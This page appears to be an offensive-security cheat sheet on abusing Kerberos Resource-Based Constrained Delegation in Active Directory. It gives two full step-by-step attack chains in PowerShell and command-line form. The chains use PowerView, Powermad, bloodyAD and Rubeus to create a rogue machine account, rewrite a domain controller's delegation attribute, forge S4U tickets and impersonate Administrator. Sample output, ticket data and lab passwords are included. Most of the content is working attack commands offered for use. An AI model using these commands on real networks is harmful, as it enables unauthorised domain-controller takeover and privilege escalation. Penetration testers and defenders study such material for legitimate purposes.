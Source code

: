 # Kerberos Delegation - Resource Based Constrained Delegation

Resource-based Constrained Delegation was introduced in Windows Server 2012.

> The user sends a Service Ticket (ST) to access the service ("Service A"), and if the service is allowed to delegate to another pre-defined service ("Service B"), then Service A can present to the authentication service the TGS that the user provided and obtain a ST for the user to Service B.  <https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html>

## HTB Method (Windows)
> Requirements: 
  1. Access to a user or group that has enough privileges to modify the msds-allowedtoactonbehalfofotheridentity. Commonly GenericWrite/All, WriteProperty, or Write DACL 
  2. Control of another object that has an SPN

1. Search RBCD 
  ```powershell
  Import-Module ./powerview.ps1

  # Get all computers in the domain into a variable
  $computers = Get-DomainComputer

  # Get all users in the domain into a variable
  $users = Get-DomainUser

  # Define the required access rights in a variable
  $accessrights = "GenericWrite","GenericAll","WriteProperty","WriteDACL"

  # Loop though each computer in the domain
  foreach ($computer in $computers){
      # get the security Descriptor for the computer
      $acl = Get-DomainObjectACL -SamAccountName $computer.SamAccountName -ResolveGUIDs

      # Loop through each user in the domain
      foreach ($user in $users) {
          $hasAccess = $acl | ?{$_.SecurityIdentifier -eq $user.objectsid} | %{($_.ActiveDirectoryRights -match ($accessRights -join '|'))}

          if ($hasAccess) {
              Write-Output "$($user.SamAccountName) has the required access rights on $($computer.name)"
          }
      }
  }
  ```
  2. RBCD Enumeration
    ```powershell
    .\SearchRBCD.ps1
    ```
  3. Use PowerMad to create a fake computer
    ```powershell
    Import-Module .\Powermad.ps1
    New-MachineAccount -MachineAccount <FakeMachineName> -Password $(ConvertTo-SecureString "<password>" -AsPlainText -Force)
    ```
  4. Modify the target computers
    ```powershell
    Import-Module .\Powerview.ps1
    $ComputerSid = Get-DomainComputer <FakeMachineName> -Properties objectsid | Select -Expand objectsid
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
    $SDBytes = New-Object byte[] ($SD.BinaryLength)
    $SD.GetBinaryForm($SDBytes, 0)
    $credentials = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\carole.holmes", (ConvertTo-SecureString "Y3t4n0th3rP4ssw0rd" -AsPlainText -Force)
    Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Credential $credentials -Verbose
    ```
  5. Get Computer hashes with Rubeus
    ```powershell
    .\Rubeus.exe hash /password:Hackthebox123+! /user:HACKTHEBOX$ /domain:inlanefreight.local
    ```
  6. s4u to Impersonate the Administrator
    ```powershell
    .\Rubeus.exe s4u /user:HACKTHEBOX$ /rc4:CF767C9A9C529361F108AA67BF1B3695 /impersonateuser:administrator /msdsspn:cifs/dc01.inlanefreight.local /ptt
    ```
    `Note: We can also use /altservice:host,RPCSS,wsman,http,ldap,krbtgt,winrm to include aditional services to our ticket request.`
  7. Connec to the target Machine 
    ```powershell
    ls \\dc01.inlanefreight.local\c$
    ```
  8. Clean up 
    ```powershell
    Import-Module .\PowerView.ps1
    $credentials = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\carole.holmes", (ConvertTo-SecureString "Y3t4n0th3rP4ssw0rd" -AsPlainText -Force)
    Get-DomainComputer DC01 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity -Credential $credentials -Verbose
    ```

## Swisskey Method 

1. Import **Powermad** and **Powerview**

    ```powershell
    PowerShell.exe -ExecutionPolicy Bypass
    Import-Module .\powermad.ps1
    Import-Module .\powerview.ps1
    ```

2. Get user SID

    ```powershell
    $AttackerSID = Get-DomainUser SvcJoinComputerToDom -Properties objectsid | Select -Expand objectsid
    $ACE = Get-DomainObjectACL dc01-ww2.factory.lan | ?{$_.SecurityIdentifier -match $AttackerSID}
    $ACE
    ConvertFrom-SID $ACE.SecurityIdentifier

    # alternative (Windows/Linux)
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get writable --otype COMPUTER --detail | egrep -i 'distinguishedName|msds-allowedtoactonbehalfofotheridentity'
    ```

3. Abuse **MachineAccountQuota** to create a computer account and set an SPN for it

    ```powershell
    New-MachineAccount -MachineAccount swktest -Password $(ConvertTo-SecureString 'Weakest123*' -AsPlainText -Force)

    # alternative (Windows/Linux)
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 add computer swktest 'Weakest123*'
    ```

4. Rewrite DC's **AllowedToActOnBehalfOfOtherIdentity** properties

    ```powershell
    $ComputerSid = Get-DomainComputer swktest -Properties objectsid | Select -Expand objectsid
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
    $SDBytes = New-Object byte[] ($SD.BinaryLength)
    $SD.GetBinaryForm($SDBytes, 0)
    Get-DomainComputer dc01-ww2.factory.lan | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
    $RawBytes = Get-DomainComputer dc01-ww2.factory.lan -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
    $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
    $Descriptor.DiscretionaryAcl

    # alternative (Windows/Linux)
    # use 'remove' instead of 'add' after exploit
    bloodyAD --host 10.1.0.4 -u user -p 'totoTOTOtoto1234*' -d crash.lab add rbcd 'dc01-ww2$' 'swktest$'
    ```

    ```ps1
    # alternative
    $SID_FROM_PREVIOUS_COMMAND = Get-DomainComputer MACHINE_ACCOUNT_NAME -Properties objectsid | Select -Expand objectsid
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$SID_FROM_PREVIOUS_COMMAND)"; $SDBytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDBytes, 0); Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

    # alternative
    StandIn_Net35.exe --computer dc01 --sid SID_FROM_PREVIOUS_COMMAND
    ```

5. Use Rubeus to get hash from password

    ```powershell
    Rubeus.exe hash /password:'Weakest123*' /user:swktest$  /domain:factory.lan
    [*] Input password             : Weakest123*
    [*] Input username             : swktest$
    [*] Input domain               : factory.lan
    [*] Salt                       : FACTORY.LANswktest
    [*]       rc4_hmac             : F8E064CA98539B735600714A1F1907DD
    [*]       aes128_cts_hmac_sha1 : D45DEADECB703CFE3774F2AA20DB9498
    [*]       aes256_cts_hmac_sha1 : 0129D24B2793DD66BAF3E979500D8B313444B4D3004DE676FA6AFEAC1AC5C347
    [*]       des_cbc_md5          : BA297CFD07E62A5E
    ```

6. Impersonate domain admin using our newly created machine account

    ```powershell
    .\Rubeus.exe s4u /user:swktest$ /rc4:F8E064CA98539B735600714A1F1907DD /impersonateuser:Administrator /msdsspn:cifs/dc01-ww2.factory.lan /ptt /altservice:cifs,http,host,rpcss,wsman,ldap
    .\Rubeus.exe s4u /user:swktest$ /aes256:0129D24B2793DD66BAF3E979500D8B313444B4D3004DE676FA6AFEAC1AC5C347 /impersonateuser:Administrator /msdsspn:cifs/dc01-ww2.factory.lan /ptt /altservice:cifs,http,host,rpcss,wsman,ldap

    [*] Impersonating user 'Administrator' to target SPN 'cifs/dc01-ww2.factory.lan'
    [*] Using domain controller: DC01-WW2.factory.lan (172.16.42.5)
    [*] Building S4U2proxy request for service: 'cifs/dc01-ww2.factory.lan'
    [*] Sending S4U2proxy request
    [+] S4U2proxy success!
    [*] base64(ticket.kirbi) for SPN 'cifs/dc01-ww2.factory.lan':

        doIGXDCCBligAwIBBaEDAgEWooIFXDCCBVhhggVUMIIFUKADAgEFoQ0bC0ZBQ1RPUlkuTEFOoicwJaAD
        AgECoR4wHBsEY2lmcxsUZGMwMS[...]PMIIFC6ADAgESoQMCAQOiggT9BIIE
        LmZhY3RvcnkubGFu

    [*] Action: Import Ticket
    [+] Ticket successfully imported!
    ```

## References

* [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory - 28 January 2019 - Elad Shami](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [A Case Study in Wagging the Dog: Computer Takeover - Will Schroeder - Feb 28, 2019](https://posts.specterops.io/a-case-study-in-wagging-the-dog-computer-takeover-2bcb7f94c783)
